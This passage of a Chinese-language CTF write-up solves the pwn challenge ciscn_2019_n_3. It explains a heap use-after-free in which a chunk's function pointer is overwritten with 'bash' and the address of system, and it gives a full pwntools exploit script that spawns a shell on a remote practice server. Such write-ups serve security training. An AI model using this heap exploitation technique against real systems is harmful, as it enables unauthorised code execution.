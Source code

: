 这里我们可以先申请三个chunk，然后free掉后两个chunk，由于bin的FILO机制，我们再一次进行申请的时候，会先将二号chunk的0xc大小的头给申请出来，然后会将一号chunk的头申请出来给三号chunk作为存储内容的chunk，这时我们进行输入，也就是可以覆盖一号chunk的函数指针，我们将fd处修改为bash字符串，bk处修改为system函数地址，free一号chunk，即可getshell。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01b1eb5f1a35bef02a.png)

exp：

```
from pwn import *

io = process('./ciscn_2019_n_3')
io = remote('node3.buuoj.cn', 28466)

elf = ELF('./ciscn_2019_n_3')
def add(id, type, content, length):
    io.recvuntil("&gt; ")
    io.sendline('1')
    io.recvuntil("&gt; ")
    io.sendline(str(id))
    io.recvuntil("&gt; ")
    if(type == 1):
        io.sendline(str(type))
        io.recvuntil("&gt; ")
        io.sendline(str(content))
    else:
        io.sendline(str(type))
        io.recvuntil("&gt; ")
        io.sendline(str(length))
        io.recvuntil("&gt; ")
        io.sendline(str(content))

def show(id):
    io.sendlineafter('&gt; ','3')
    io.sendlineafter('&gt; ',str(id))

def delete(id):
    io.sendlineafter('&gt; ','2')
    io.sendlineafter('&gt; ',str(id))


add(0, 2, 'aaaa', 0x88)
add(1, 2, 'aaaa', 0x38)
add(2, 1, 0x41, 0)

delete(1)
delete(2)

add(3, 2, 'bash' + p32(elf.plt['system']), 0xc)

delete(1)

io.interactive()
```
